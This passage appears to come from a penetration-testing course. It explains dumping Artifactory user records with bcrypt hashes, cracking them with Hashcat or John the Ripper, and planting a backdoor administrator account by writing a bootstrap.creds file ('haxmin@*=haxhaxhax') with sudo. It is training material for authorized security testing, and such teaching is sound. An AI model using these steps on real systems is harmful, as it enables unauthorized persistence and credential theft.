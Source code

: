 > Listing 55 - Listing the users

The command selects all records from the access_users table, which holds the user records for the Artifactory system.

Each record includes the bcrypt-hashed passwords of the users we found earlier in our database backup file approach. As we did previously, we can crack the hashes using Hashcat or John the Ripper on our Kali VM.

1

(JFrog Ltd., 2020), [https://www.jfrog.com/confluence/display/JFROG/PostgreSQL](https://www.jfrog.com/confluence/display/JFROG/PostgreSQL) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5416-1)

2

(Wikipedia, 2020), [http://db.apache.org/derby/releases/release-10.15.1.3.html](http://db.apache.org/derby/releases/release-10.15.1.3.html) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5416-2)

3

(Apache Software Foundation, 2013), [https://db.apache.org/derby/docs/10.15/getstart/tgsrunningij.html](https://db.apache.org/derby/docs/10.15/getstart/tgsrunningij.html) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5416-3)

### 17.2.12. Adding a Secondary Artifactory Admin Account

In addition to the vectors we've already explored, we can also gain access to Artifactory by adding a secondary administrator account through a built-in backdoor. If an administrator account is corrupted, or they lose access to the system, Artifactory offers an alternative option for gaining administrative access. This method will require restarting the Artifactory process, meaning there is some risk of data corruption or production downtime. As a result, this may not be an appropriate solution for all engagements.

This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.

To demonstrate this method, we'll log in to the controller server as _offsec_ and navigate to the /opt/jfrog/artifactory/var/etc/access folder. We then need to create a file through _sudo_ called bootstrap.creds with the following content.

```
haxmin@*=haxhaxhax
```

> Listing 56 - Adding backdoor admin account

This will create a new user called "haxmin" with a password of "haxhaxhax". Next, we'll need to chmod the file to 600.

```
offsec@controller:/opt/jfrog$ sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```

> Listing 57 - Changing the file permissions
